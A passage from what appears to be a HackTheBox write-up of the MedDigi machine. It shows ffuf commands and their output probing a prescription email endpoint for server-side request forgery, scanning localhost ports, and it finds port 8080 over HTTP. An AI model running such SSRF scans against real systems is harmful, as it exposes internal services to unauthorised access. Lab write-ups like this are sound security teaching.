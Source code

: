 On HTTPS it finds nothing:

```

oxdf@hacky$ ffuf -d 'Email=0xdf@meddigi.htb&Link=https://127.0.0.1:FUZZ' -w /opt/SecLists/Discovery/Infrastructure/common-http-ports.txt -u 'https://portal.meddigi.htb/Prescriptions/SendEmail' -H 'Content-Type: application/x-www-form-urlencoded' -mc 200 -b "access_token=$token"

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : https://portal.meddigi.htb/Prescriptions/SendEmail
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Infrastructure/common-http-ports.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: access_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IjciLCJlbWFpbCI6IjB4ZGYyQG1lZGRpZ2kuaHRiIiwibmJmIjoxNzA5MzIyMzM5LCJleHAiOjE3MDkzMjU5MzksImlhdCI6MTcwOTMyMjMzOSwiaXNzIjoiTWVkRGlnaSIsImF1ZCI6Ik1lZERpZ2lVc2VyIn0.ofzJS2ZE7OOwdsRRZ98daXdA8OkQ3kbEuNYEtRnZLR4
 :: Data             : Email=0xdf@meddigi.htb&Link=https://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

:: Progress: [35/35] :: Job [1/1] :: 5 req/sec :: Duration: [0:00:08] :: Errors: 0 ::

```

On HTTP, it finds 8080:

```

oxdf@hacky$ ffuf -d 'Email=0xdf@meddigi.htb&Link=http://127.0.0.1:FUZZ' -w /opt/SecLists/Discovery/Infrastructure/common-http-ports.txt -u 'https://portal.meddigi.htb/Prescriptions/SendEmail' -H 'Content-Type: application/x-www-form-urlencoded' -mc 200 -b "access_token=$token"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : https://portal.meddigi.htb/Prescriptions/SendEmail
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Infrastructure/common-http-ports.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: access_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IjciLCJlbWFpbCI6IjB4ZGYyQG1lZGRpZ2kuaHRiIiwibmJmIjoxNzA5MzIyMzM5LCJleHAiOjE3MDkzMjU5MzksImlhdCI6MTcwOTMyMjMzOSwiaXNzIjoiTWVkRGlnaSIsImF1ZCI6Ik1lZERpZ2lVc2VyIn0.ofzJS2ZE7OOwdsRRZ98daXdA8OkQ3kbEuNYEtRnZLR4
 :: Data             : Email=0xdf@meddigi.htb&Link=http://127.0.0.1:FUZZ
```